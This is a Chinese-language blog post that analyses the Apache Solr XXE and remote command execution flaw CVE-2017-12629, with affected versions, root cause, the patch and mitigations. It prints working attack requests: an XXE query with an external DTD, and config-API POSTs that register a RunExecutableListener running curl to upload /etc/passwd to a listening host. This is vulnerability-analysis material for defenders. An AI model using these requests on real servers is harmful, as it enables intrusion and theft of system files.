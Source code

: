 ```yaml
---
layout: post
title:  Apache Solr XML外部实体扩展和命令执行漏洞(CVE-2017-12629)漏洞分析
date: 2017-10-27
categories: 漏洞分析
tags:  java solr
---
```


* content
{:toc}


### 0x00 事件描述

Apache-Solr是一个企业级搜索服务器，对外提供类似于Web-service接口，基于Lucene开发。

Apache Lucene/Solr团队在2017年10月12日发布了0day攻击预警(CVE-2017-12629)该漏洞可导致信息泄露和远程命令执行。官方更新了7.1版本来修复此漏洞。而且某些RedHat产品使用了相关漏洞组件，可能受到此漏洞影响[参考1]。

经过分析验证，确认该漏洞确实存在，有关漏洞攻击脚本已经在网络中公开[参考2]，请相关用户尽快处理.









### 0x01 事件影响面
注:部分信息来自[参考1]和[参考3]

#### 影响面

该攻击事件可能影响到使用了Apache-Solr企业级搜索服务器和使用lucene相关组件的用户。

#### 影响版本

Apache-Solr 小于7.1版本都有可能受到rce攻击影响，xxe的影响版本在5.1-7.0.1 

|Platform |	Package | 	State |
|---------|:---------:|---------:|
|Red Hat Software Collections for Red Hat Enterprise Linux |rh-java-common-lucene 	|Affected|
|Red Hat Software Collections for Red Hat Enterprise Linux |rh-java-common-lucene5 	|Affected|
|Red Hat JBoss EAP 7 	|lucene 	|Affected|
|Red Hat JBoss Data Grid 7| 	lucene |	Affected|
|Red Hat Enterprise Linux 6|	lucene |	Will not fix|



### 0x02 漏洞信息

该CVE存在两个漏洞，Lucene的XML解析器在5.5版本才被导入[参考4]，在文档内允许文档类型定义和外部实体，可以造成XXE攻击；Solr的配置中有一个API:add-listener，通过这个API可以创建一个RunExecutableListener实例，导致远程命令执行，这个API只在solr中出现，而不是Lucene。官方在更新的7.1版本中移除了造成命令执行漏洞的RunExecutableListener模块，对造成XXE漏洞的XML解析器进行了修复

#### XML外部实体扩展漏洞

solr的查询流程从SolrDispatchFilter的dofilter开始，在Solr里面，使用QParse来处理查询解析，在查询语句中可以构造type=xmlparse就会使solr调用QparserPlugin的子类xmlQParsePlugin来对查询语句进行处理，造成xxe漏洞
	
slor服务器启动cloud实例


	solr start -c

创建集合

	http://localhost:8983/solr/admin/collections?action=CREATE&name=test&numShards=2&maxShardsPerNode=2

执行命令查询传入xml查询子句，可以通过监听本机4444端口收到http请求

	http://localhost:8983/solr/test/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:4444/test"><a></a>'}

调用栈如图所示,调用xmlparse解析器，查询子句引用外部实体
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_picture1.PNG)

最后在xmlQParsePlugin实例中调用第三方xml处理库javax.xml.parsers.DocumentBuilder和javax.xml.parsers.DocumentBuilderFactory解析xml，在没有对DTD，Entity做足够的安全处理下造成xxe漏洞

#### 命令执行漏洞

先通过向collection的config添加监听类RunExecutableListener，再通过向collection中添加数据来触发监听类执行命令，执行payload，造成任意命令执行

发起请求给集合添加或更新RunExecutableListener类

	POST /solr/test/config HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: application/json  
	Content-Length: 226
	
	{
	  "update-listener" : {
	   "event":"postCommit",
	   "name":"newlistener",
	   "class":"solr.RunExecutableListener",
	   "exe":"curl",
	   "dir":"/usr/bin/",
	   "args":["-F","value=@/etc/passwd","http://127.0.0.1:9090"]
	  }
	}

如果add报错可以使用update

初始化一个RunExecutableListener实例
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_picture2.PNG)

提交数据即可触发命令执行

	POST /solr/test/update HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: text/xml 
	Content-Length: 516
	
	<add>
	  <doc>
	    <field name="authors">SuperX</field>
	  </doc>
	</add>



在未授权用户无法直接访问向Solr服务器Config的API时通过构造xxe和RCE组合payload[参考2]既可以实现远程代码执行，并做一个简单的代码执行验证，虽然返回报错，但是可以看到命令已经执行
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_picture3.PNG)

#### 漏洞修复

1. 修复xml解析器

Java对于xxe修复一般通过禁用外部实体解析来完成。
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_xxe_7_0.PNG)

通过对比可以看到，添加了```dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)```

查看官网描述当```XMLConstants.FEATURE_SECURE_PROCESSING```是true的话the implementation will limit XML processing to conform to implementation limits. Examples include enity expansion limits and XML Schema constructs that would consume large amounts of resources. If XML processing is limited for security reasons, it will be reported via a call to the registered ErrorHandler.fatalError(SAXParseException exception)，对xml处理的时候进行限制处理，例如限制 实体扩展和xml造成dos情况，如果处理过程中触发了限制会报告给SAXParseException.就是说对实体扩展和dos，xxe攻击做了限制

![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_xxe_7_1.PNG)

2. 修复任意命令执行

直接删掉了RunExecutableListener类，避免了命令执行

### 0x03 修复方案

1. 升级到7.1最新版本
2. 使用参数-Ddisable.configEdit=true来运行Solr实例
3. 经过实践发现，对solr未授权访问进行控制，效果更实际

### 0x04 时间线

2017-10-12 事件披露

2017-10-21 完成漏洞分析

### 0x05 参考链接

1. http://mail-archives.us.apache.org/mod_mbox/www-announce/201710.mbox/%3C018601d343b3$53868c50$fa93a4f0$@apache.org%3E
2. https://www.exploit-db.com/exploits/43009/
3. https://access.redhat.com/security/cve/cve-2017-12629
4. http://lucene.apache.org/solr/5_5_0/solr-core/org/apache/solr/search/QParserPlugin.html

### 0x06 补充

看到创宇报告，遗漏newSearcher也可以直接触发命令执行

如果已经有listener监听器，可以使用新的name或者直接update-listener进行覆盖。


	POST /solr/test/config HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: application/json  
	Content-Length: 226
	
	{
	  "add-listener" : {
	   "event":"newSearcher",
	   "name":"newlistener",
	   "class":"solr.RunExecutableListener",
	   "exe":"curl",
	   "dir":"/usr/bin/",
	   "args":["-F","value=@/etc/passwd","http://127.0.0.1:9090"]
	  }
	}






